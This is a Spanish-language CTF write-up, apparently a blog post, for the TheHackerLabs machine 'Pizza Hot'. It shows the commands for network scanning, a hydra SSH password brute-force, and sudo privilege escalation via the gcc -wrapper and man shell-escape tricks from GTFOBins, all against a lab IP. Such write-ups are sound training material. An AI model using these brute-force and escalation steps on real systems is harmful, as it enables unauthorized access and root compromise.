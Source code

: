 ```yaml
---
layout: post
title: "Pizza Hot"
date: 2024-06-16 17:15:23
category: sample
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Pizza Hot </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/pizzahot/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/PizzaHot/host.png){:.margin}

**1\.** Enumo dispositivos en la red.

`sudo arp-scan -l`

![img](/notas/public/img/thehackerlabs/PizzaHot/arp.png){:.margin}

**2\.** Escaneo los puertos y servicios.

`sudo nmap -p- --open -sCV -T5 -n -Pn --min-rate=5000 192.168.1.9`

![img](/notas/public/img/thehackerlabs/PizzaHot/nmap.png){:.margin}

**3\.** Visito la web, revisando la fuente encuentro un usuario potencial.

![img](/notas/public/img/thehackerlabs/PizzaHot/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/PizzaHot/80code.png){:.margin}

**4\.** Bruteforce con hydra al ssh.

`hydra -l pizzapiña -P /usr/share/wordlists/wockyou.txt ssh://192.168.1.9`

![img](/notas/public/img/thehackerlabs/PizzaHot/hydra.png){:.margin}

**5\.** Conectandome por ssh con el usuario pizzapiña.

`ssh pizzapiña@192.168.1.9`

![img](/notas/public/img/thehackerlabs/PizzaHot/ssh.png){:.margin}

**6\.** Viendo nuestros permisos sudo, tengo el binario gcc que puedo ejecutar como pizzasinpiña.

`sudo -l`

![img](/notas/public/img/thehackerlabs/PizzaHot/sudol.png){:.margin}

**7\.** En [gtfobins](https://gtfobins.github.io/gtfobins/gcc/#sudo) tenemos el comando para escalar o en este caso migrar de usuario.

`sudo -u pizzasinpiña gcc -wrapper /usr/bin/bash,-s .`

![img](/notas/public/img/thehackerlabs/PizzaHot/pizzasinpiña.png){:.margin}

**8\.** Ahora tenemos un binario que podemos ejecutar como root.

`sudo -l`

![img](/notas/public/img/thehackerlabs/PizzaHot/sudol2.png){:.margin}

**9\.** Escalando privilegios a root, [gtfobins](https://gtfobins.github.io/gtfobins/man/#sudo).

_9.1- Ejecutamos el siguiente comando_

`sudo -u root man man`

![img](/notas/public/img/thehackerlabs/PizzaHot/man.png){:.margin}

_9.2- En este punto nos lanzamos una bash_

`!/bin/bash`

![img](/notas/public/img/thehackerlabs/PizzaHot/man2.png){:.margin}

_9.3- Ya somos root_

![img](/notas/public/img/thehackerlabs/PizzaHot/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>